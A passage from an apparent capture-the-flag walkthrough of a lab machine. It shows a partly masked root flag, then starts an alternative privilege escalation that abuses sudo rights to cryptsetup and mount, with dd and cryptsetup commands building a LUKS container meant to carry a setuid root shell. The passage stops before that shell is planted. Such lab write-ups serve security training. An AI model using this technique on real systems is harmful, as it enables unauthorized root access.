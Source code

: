 And grab `root.txt`:

```

root@forwardslash:~# cat root.txt
cc37ab30************************

```

### Alternative Exploit sudo Luks

Because pain is able to run `cryptsetup` and `mount` as root, I can ignore trying to open the encrypted volume on the box, and just create my own instead. I’ll add a setuid shell to the volume, and then on mounting it, I can get a root shell.

On my Kali box, I’ll create a luks container using [this walkthrough](https://blog.canadianwebhosting.com/how-to-create-an-encrypted-container/). First, create the file with `dd` that’s 20M in size:

```

root@kali# dd if=/dev/zero of=mal.luks bs=1024 count=20480
20480+0 records in
20480+0 records out
20971520 bytes (21 MB, 20 MiB) copied, 3.05364 s, 6.9 MB/s

root@kali# ls -lh mal.luks 
-rwxrwx--- 1 root vboxsf 20M Jul  3 21:51 mal.luks

```

This creates a file of all 0s, 20M in size.

Rather than create a key file, I’ll just use a password. I’ll run `cryptsetup` to initialize the Luks partition:

```

root@kali# cryptsetup luksFormat mal.luks 

WARNING!
========
This will overwrite data on mal.luks irrevocably.

Are you sure? (Type 'yes' in capital letters): YES
Enter passphrase for mal.luks: 
Verify passphrase: 

```

Now I’ll map the volume to a `/dev` with `cryptsetup luksOpen`:

```

root@kali# cryptsetup luksOpen mal.luks fsmal
Enter passphrase for mal.luks: 

```
